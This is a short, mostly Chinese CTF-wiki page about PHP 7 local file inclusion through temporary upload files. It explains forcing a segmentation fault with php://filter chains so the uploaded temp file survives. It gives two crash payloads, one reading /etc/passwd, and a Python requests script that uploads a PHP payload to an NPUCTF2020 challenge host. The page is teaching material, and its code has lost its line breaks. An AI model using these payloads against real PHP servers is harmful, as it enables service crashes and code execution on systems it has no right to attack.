# php7 segment fault临时文件包含
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



向PHP发送含有文件区块的数据包时，让PHP异常崩溃退出，POST的临时文件就会被保留


1.利用能访问的phpinfo页面，对其一次发送大量数据造成临时文件没有及时被删除


2.PHP版本<7.2，利用php崩溃留下临时文件


php < 7.2php://filter/string.strip_tags/resource=/etc/passwd

* 
php7 老版本通杀php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA

* 
```plain
import requestsfrom io import BytesIOurl="http://f0af8aa4-9e9c-40a8-9003-175dbc6f69f8.node3.buuoj.cn/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"payload="<?php phpinfo();?>"files={    "file":BytesIO(payload.encode())}r=requests.post(url=url,files=files,allow_redirects=False)
print(r.text)
Python
```



原题：[NPUCTF2020]ezinclude


